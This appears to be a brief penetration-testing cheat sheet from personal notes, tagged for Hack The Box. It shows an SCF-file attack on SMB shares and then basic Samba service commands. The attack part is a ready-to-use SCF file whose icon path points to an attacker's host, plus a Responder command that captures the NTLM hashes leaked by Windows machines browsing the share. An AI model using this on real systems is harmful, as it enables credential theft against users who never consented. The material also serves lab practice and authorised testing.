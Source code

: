 # SMB share - SCF file Attacks


Name it: 

**@attack.scf**

 ```vim
 [Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
 ```

Start responder and upload @attack.scf

```bash
sudo responder -wrf --lm -I <Interface>
```
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/


#smb #driver #htb #responder #windows

# Samba - Linux
### Start / Stop service

```bash
sudo service smbd stop/start
```

### Configuration file
````bash
/etc/samba/smb.conf
````